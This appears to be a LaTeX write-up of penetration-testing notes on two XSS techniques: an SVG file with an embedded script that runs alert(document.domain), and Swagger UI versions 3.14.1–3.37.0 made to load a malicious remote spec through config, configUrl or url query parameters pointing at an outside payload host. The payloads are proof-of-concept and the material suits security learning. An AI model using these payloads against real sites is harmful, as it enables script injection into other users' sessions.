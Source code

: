 \documentclass{article}
\begin{document}
\section*{XSS uploading a malicious SVG file}
\textbf{Scalable Vector Graphic (SVG)} $\Longrightarrow$ is a unique type of image format. Unlike other varieties, SVGs don’t rely on unique pixels to make up the images you see. Instead, they use ‘vector’ data. SVG files are written in XML, a markup language used for storing and transferring digital information. What some people don’t know is that SVG files are capable of holding javascript using regular <script> tags and browsers will parse and execute the code when the file URL is requested directly, examples below:
\begin{lstlisting}[frame=single]
   <?xml version="1.0" standalone="no"?>
   <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics
   /SVG/1.1/DTD/svg11.dtd">
   <svg version="1.1" baseProfile="full" >
       <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke=
       "#004400"/>
       <script type="text/javascript">
           alert(document.domain);
       </script>
    </svg>
\end{lstlisting}
or you can simply download a svg file with payload form github or any site

\break

\section*{XSS via Swagger-UI}
\textbf{Swagger UI} $\Longrightarrow$ is a really common library used to display API specifications in a nice-looking UI used by almost every company, Swagger UI versions affected with the XSS are \textbf{from 3.14.1 to 3.37.0} because they are using an outdated version of the library DOMPurify.
\vspace{5px}
\\Many Swagger UI instances let the page load an OpenAPI/Swagger JSON or YAML from a URL passed in the query string like
      \begin{lstlisting}[frame=single]
      https://attacker.example.com/Swagger?
      \end{lstlisting}

all you need to do is adding a payload as a query parameter so the URL be like
      \begin{lstlisting}[frame=single]
      https://attacker.example.com/Swagger?config=payload
      https://attacker.example.com/Swagger?configUrl=payload
      https://attacker.example.com/Swagger?url=payload
      \end{lstlisting}
you can get the payload from github repos and it's something like
      \begin{lstlisting}[frame=single]
      https://jumpy-floor.surge.sh/test.json
      https://jumpy-floor.surge.sh/test.yaml
      \end{lstlisting}
\end{document}
